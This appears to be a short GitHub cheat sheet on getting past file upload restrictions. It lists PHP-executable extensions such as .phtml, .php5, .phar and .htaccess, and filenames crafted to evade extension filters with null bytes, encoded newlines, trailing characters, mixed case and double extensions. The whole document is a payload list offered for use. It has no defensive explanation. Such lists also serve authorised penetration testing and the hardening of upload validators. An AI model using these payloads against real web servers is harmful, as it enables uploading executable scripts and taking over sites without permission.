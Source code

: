 # file-upload-trick
# List Bypass File Upload

Common Extension File Upload Bypass

```
.php
.PhTmL
.php2
.php3
.php4
.php5
.php6
.php7
.phps
.pht
.phtm
.phtml
.pgif
.shtml
.htaccess
.phar
.inc
.hphp
.ctp
.module
```


unrestricted file upload trick
```
file.php%20
file.php%0a
file.php%00
file.php%0d%0a
file.php/
file.php.\
file.php....
file.pHp5....
```

```
file.png.php
file.png.pHp5
file.php#.png
file.php%00.png
file.php\x00.png
file.php%0a.png
file.php%0d%0a.png
file.phpJunk123png
```

```
file.png.jpg.php
file.php%00.png%00.jpg
```
